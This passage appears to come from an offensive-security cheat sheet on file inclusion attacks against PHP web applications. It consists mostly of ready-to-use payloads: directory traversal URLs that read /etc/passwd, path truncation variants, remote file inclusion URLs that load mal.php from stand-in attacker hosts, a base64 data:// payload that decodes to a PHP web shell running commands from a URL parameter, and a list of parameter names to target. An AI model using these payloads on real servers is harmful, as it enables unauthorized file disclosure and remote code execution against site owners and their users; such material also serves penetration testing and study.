 Maybe the back-end is checking the folder path:

Copy

```php
<http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd>
or using private

<http://example.com/index.php?page=private/../../../../etc/passwd> # depth of 3+1=4

<http://example.com/index.php?page=../../../var/www/private/../../../etc/passwd>

```

#### **Path Truncation Technique**

* /`etc/passwd`, `/etc//passwd`, `/etc/./passwd`, and `/etc/passwd/` are all treated as the same path.
* When the last 6 characters are `passwd`, appending a `/` (making it `passwd/`) doesn't change the targeted file.
* Similarly, if `.php` is appended to a file path (like `shellcode.php`), adding a `/.` at the end will not alter the file being accessed.

```php
<http://example.com/index.php?page=a/../../../../../../../../../etc/passwd>......[ADD MORE]....
<http://example.com/index.php?page=a/../../../../../../../../../etc/passwd/././.[ADD> MORE]/././.
<http://example.com/index.php?page=....//....//etc/passwd>
<http://example.com/index.php?page=..///////..////..//////etc/passwd>
<http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd>
Maintain the initial path: <http://example.com/index.php?page=/var/www/../../etc/passwd>
<http://example.com/index.php?page=PhP://filter>
```

**Remote File Inclusion**

usnig HTTP:// or HTTPS:// Filter

```php
<http://example.com/index.php?page=http://atacker.com/mal.php>
<http://example.com/index.php?page=\\\\attacker.com\\shared\\mal.php>
```

or

Using PHP://

```php
PHP://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+.txt

<?php system($_GET['cmd']);echo 'Shell done !'; ?>
```

### **Top 25 parameters**

```php
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
```